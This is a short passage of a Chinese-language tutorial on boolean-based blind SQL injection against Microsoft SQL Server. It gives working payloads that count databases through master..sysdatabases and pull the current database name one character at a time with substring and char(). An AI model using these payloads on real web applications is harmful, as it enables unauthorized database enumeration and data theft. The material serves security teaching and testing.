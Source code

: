 ##### 7)sql server 的布尔型盲注



###### 1.sql server 布尔型盲注的演示



**1.1获取数据库的数据库个数**

```
payload：id=1 and (select count(*) from master..sysdatabases) >7
```

<img src="assets/19f7ee16bf674c93924286a0fe37f4a2.png" alt="19f7ee16bf674c93924286a0fe37f4a2" style="zoom:50%;" />

```
id=1 and (select count(*) from master..sysdatabases) >8
```

<img src="assets/0e5edc4b6e3f47579c4fd3598ca2ec73.png" alt="0e5edc4b6e3f47579c4fd3598ca2ec73" style="zoom:50%;" />

**1.2获取当前数据库的信息**

```
payload：id=1 and substring((select db_name()),1,1)=char(106)
```
